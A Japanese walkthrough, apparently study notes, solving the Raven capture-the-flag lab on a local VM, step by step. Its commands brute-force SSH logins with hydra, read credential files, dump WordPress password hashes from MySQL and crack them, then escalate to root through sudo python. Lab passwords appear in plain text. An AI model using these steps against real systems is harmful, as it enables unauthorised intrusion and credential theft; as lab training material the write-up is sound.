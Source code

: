 ## Raven 683~

## 目的
- flag1.txt <- webサイト
- flag2.txt <- ターゲットのフォルダ
- flag3.txt *2 <- SQLの中
- flag4.txt *2 <- SQLの中とrootフォルダ
- 合計で6つを見つける
## 実践
### ポートスキャンまでは同じ
- フォルダを作る
- 環境変数に登録する
  

### Dirbでサイトを探す
- `dirb $URL -r`
  - `-r` 再帰的に調査しない。ここでは-rをつけないと終わらないのでつけている
  - 辞書ファイルを指定しないと、デフォルトの/usr/share/dirb/wordlists/common.txtファイルを使っている
  - ここでは使っていないが、`wordpress/wp-login.php`がある

### gobusterで探す(別解)
- Dirbと当然、同じディレクトリが出てくる。
  - メリット -> Dirbよりも速度が速いので、gobusterの方がいいかも
  - デメリット -> wordpressまでしか出てこないが、Dirbならwp-login.phpまで出てくる
### Webサイトを見て修正する
- `http://192.168.56.107/wordpress`ブラウザのパスを見て、wordpressが使われているのがわかる
- サイトが崩れているので直す
- `sudo vi /etc/hosts` 下のを書く
- `192.168.56.107 raven.local` 

### もう一度Webサイトを見てみる
- サイトで右クリック`view page source`を選択で`ctrl + f`で検索する

### WPScanでWordPressをチェックする
  - wpscanをインストールできるようにNATに接続する
  - `sudo gem install wpscan`
  - `wpscan --url 192.168.56.107/wordpress --enumerate u`
  - wpscanで得た名前をnames.txtに書いておく。`cat > names.txt`
    ```
    michael
    steven
    ```
  - (参考) wordpressを使っているので、wigやdroopescanも使える


### Hydraでパスワード探す
  - `sudo hydra ssh://192.168.56.107 -L names.txt -P /usr/share/john/password.lst -v -t 4`
  - httpでなく、sshなので注意
  - `michael`だけしかパスワードわからないので、そこで止める

### (参考) nmapでパスワードを探す
- `sudo nmap -p 22 --script ssh-brute --script-args userdb=names.txt,passdb=pass.txt`
  - passdb.txtはパスで指定できないので、同じディレクトリでないとだめ

### (参考) wpscanでパスワードを探す
- ~wpscan --url $URL --passwords /usr/share/john/password.lst~
- これでできると思ったが、ここではsshの接続であってwordpressではなかったのでパスワードは出てこない

### sshで接続
- `ssh michael@$IP`
  - password `michael` 

### システム内の探索
- ユーザmichaelで探索
- `sudo -l`
  - パスワードがわからない 
- SUIDをする
  - 特に使えるものはない 
- `cat /etc/passwd`
  - stevenという気になるユーザが見つかる 
- wordpressの設定ファイルにuser,passworを探す
  - `cd /var/www/html/wordpress/`
  - `cat wp-config.php`

### MySQLの設定情報を見る
- portを探す `netstat -antp`
- MySQLのデフォルトポートは3306なので、それを使う

### MySQLに接続
- `mysql -h localhost -u root -pR@v3nSecurity`
- `-p`オプションはパスワードだが、なぜかスペースなしで続けてパスワードを書く。そもそもパスワードをコマンドに書かない
- mysql> こんなプロンプトが返ってきたら成功
- 注意: MySQLはコマンドの最後に`;`をつけないとダメ
- データベースに何が入っているか表示する `show databases;`
- wordpressが気になるので移動して見る `use wordpress;`

### MySQLの探索
- wordpressの中身にどんなのがあるか調べてみる `show tables;` 
- wp_usersが気になるので見てみる  
  - `select * from wp_users\G`
  - selectはprintみたいなもの
  - \Gは綺麗に表示してくれる。なしでやってみたらわかる
- `select concat(user_login, ":", user_pass) from wp_users into outfile '/tmp/hash.txt';`
- wordpressのユーザ名とパスワードの書いたhash.txtが作成される。通常SQLでパスワードが保存されているときはハッシュ化
### MySQLをさらに探索
- ブログの記事を保存してあるテーブルを見る
  - `select * from wp_posts\G`
- `quit;`
### ParrotOS側のhash.txtにコピーする
- 通常パスワードの解析は攻撃側端末で行う理由は３つ
- 1. ターゲット端末にJohnがインストールされてることはない
  2. ターゲット端末に負荷がかかるので見つかる可能性がある
  3. 攻撃端末の方が高スペックである
- ターゲット端末のhash.txtをコピーして、ParrotOS側の新しい端末を起動してターミナルにペーストする
  - `cat > hash.txt` 
### John the ripper(ParrotOS側で)
  - hash.txtの場所に移動して、またはhash.txtを絶対パスで指定して以下を実行 
  - `sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
    - 過去に一度解析していたら以下のコマンドする
    - `sudo john --show hash.txt` 
### stevenに切り替える
- userのstevenのpasswordがわかるので切り替える
- `su steven`
- password`pink84`

### sudo -l
  - `sudo -l` Pythonがルート権限で使えるのを確認
### Pythonでrootシェルを取得
  - `sudo /usr/bin/python`
  - ここでPythonのプログラムが起動する。Pythonはシェルを起動できるので、Pythonで起動したものはrootになれる
  - `import os`
  - `os.system('/bin/bash')`
### ルートフラグを開く
  - `cd /root`
  - `cat flag4.txt`    
